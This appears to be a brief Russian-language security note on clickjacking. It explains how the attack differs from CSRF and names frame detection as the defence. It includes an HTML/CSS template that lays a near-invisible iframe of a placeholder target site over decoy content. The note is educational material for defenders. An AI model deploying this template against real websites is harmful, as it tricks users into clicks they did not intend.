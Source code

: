 # Clickjacking (UI redressing)

Форма прорисовывается поверх формы лигитимного приложения. Разница от CSRF в том, что требуется от пользователя интерактивных действий (кликнуть по кнопке, например).

CSRF токены не защищают от этого вида атак. Защищает детектирование того, что сайт загружен в скрытом iframe.

## Construct basic clickjacking attack

```markup
<head>
	<style>
		#target_website {
			position:relative;
			width:128px;
			height:128px;
			opacity:0.00001;
			z-index:2;
			}
		#decoy_website {
			position:absolute;
			width:300px;
			height:400px;
			z-index:1;
			}
	</style>
</head>
...
<body>
	<div id="decoy_website">
	...decoy web content here...
	</div>
	<iframe id="target_website" src="https://vulnerable-website.com">
	</iframe>
</body>
```
